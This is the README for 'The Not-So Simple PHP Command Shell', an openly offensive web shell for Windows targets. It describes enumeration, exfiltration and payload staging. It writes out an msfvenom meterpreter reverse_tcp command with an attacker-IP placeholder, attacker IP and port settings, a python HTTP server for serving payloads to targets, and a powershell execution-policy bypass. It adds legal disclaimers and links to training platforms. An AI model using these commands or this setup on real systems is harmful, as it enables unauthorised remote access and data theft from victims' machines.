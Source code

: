 [![Actively Maintained](https://img.shields.io/badge/Maintenance%20Level-Actively%20Maintained-green.svg)](https://gist.github.com/cheerfulstoic/d107229326a01ff0f333a1d3476e068d) [![Version-2.0.8](https://img.shields.io/badge/Version-2.0.8-green)](https://img.shields.io/badge/Version-2.0.8-green) [![License GNU/GPL2.0](https://img.shields.io/badge/License-GNU/GPL2.0-blue)](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/LICENSE) [![Language PHP](https://img.shields.io/badge/Language-PHP-red)](https://www.php.net/)

# The Not-So Simple PHP Command Shell 🕵🔎 ️
![Logo](/img/nsscmdshell.png)
## Foreword:
> Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target. The following websites provide training resources and practice scenarios and are excellent resources for learning such skills:

* https://www.hackthebox.eu/
* https://tryhackme.com/

Automates or simplifies many on target functions. Designed for windows targets. See it in action at https://kdgwebsolutions.com/assets/img/videos/proof-of-concept-for-learning-management-system-exploits.mp4. I have included an assortment of common windows enumeration and escalation tools.  To generate your own msfvenom payload:

venom.exe : 
```sh
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=(ATTACKBOXIP) LPORT=(ATTACBOXPORT) -e x64/shikata_ga_nai -f exe -o venom.exe`
```
If you would prefer to use a payload generator, please give mine a try https://github.com/kaotickj/K-Sploit
![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif)

## Automates or simplifies many on target enumeration functions. Including:

* Simple system commands
* File upload/download options
* simple user manipulations (on compatible targets with sufficient privileges)
* One click user info/ user permissions info
* One click systeminfo
* One Click processes list
* One click file cleanup removes all files uploaded with this tool

## How to use it

First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:

`$attackip = "10.0.2.6";`

`$attackport = "8000";`

Now get "nsscmdshell.php" onto the target < - DISCLAIMER (in a manner consistent with applicable laws - and within scope of a written contract where required) - >.

Once the nsscmdshell is uploaded, typing valid commands into the command input or clicking the various cmd buttons will display the results in a windows command prompt style below the nsscmdshell interface.

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-output.png)

###### The upload and download options are self explanatory, but just to avoid any confusion:

If using the select field, choose your file and click "upload". Files linked in the select field options need to be present at the web root at the ip address and port in lines 10 and 11 of nsscmdshell.php.<sup>1</sup>

If using the open file dialog option, only files present at the ip address and port specified can be uploaded.

For the download option, simply enter the filename to be downloaded from the working directory of the target machine. Please note that files which can be managed by your browser will be opened in your browser - i.e., entering a text or html file to be downloaded will instead open the file in the web browser.

Example usage: run jaws-enum.ps1 - output to jaws.txt `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt`, then download the output file to your attack machine for later close examination.

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-jaws.png)

The quick command buttons each have a title attribute with a brief description of the function - hover over the button to see the description.<br>

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-title-desc.png)

It goes without saying that the effectiveness of the various functions depends on the target os's support of the functions and the current user's permissions. This was designed for and tested on Windows XP - Windows 8.1 with very limited testing on Win10.

*** Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error?
 Two possible causes:
1. You didn't set the variables, `$attackip` and `$attackport` to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11.
2. The files are not available on the defined server or port, or there is no server running on the defined port. Fix: `python3 -m http.server XXXX` in a directory containing the files you're attempting to upload.

### Footnotes:
<sup>1</sup> I generally cd into my "windowstools" folder and start a simple http server:
```sh
cd windowstools
python3 -m http.server 8000
```
![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-listening.png)
![Hack The Box](http://www.hackthebox.eu/badge/image/476578)  ![Try Hack Me Box](https://tryhackme-badges.s3.amazonaws.com/kaotickj.png)
